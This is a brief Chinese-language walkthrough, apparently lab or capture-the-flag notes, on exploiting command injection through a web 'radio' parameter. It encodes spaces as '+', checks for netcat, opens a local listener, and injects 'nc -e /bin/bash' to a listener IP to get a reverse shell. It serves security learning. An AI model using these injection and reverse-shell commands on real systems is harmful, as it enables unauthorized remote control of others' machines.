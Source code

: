 ```
ls -l在radio参数中写成了ls+-l
也就是需要将空格替换为+
```

首先查看对方系统中是否是nc

```
which+nc
```

![image-20250314133539828](assets/image-20250314133539828.png)

![image-20250314133545784](assets/image-20250314133545784.png)



nc反弹shell

本地开启监听

```
nc -lvp 283
```

<img src="assets/image-20250314133719546.png" alt="image-20250314133719546" style="zoom:150%;" />

```
nc+-e+/bin/bash+192.168.1.3+283
```

![image-20250314133746148](assets/image-20250314133746148.png)


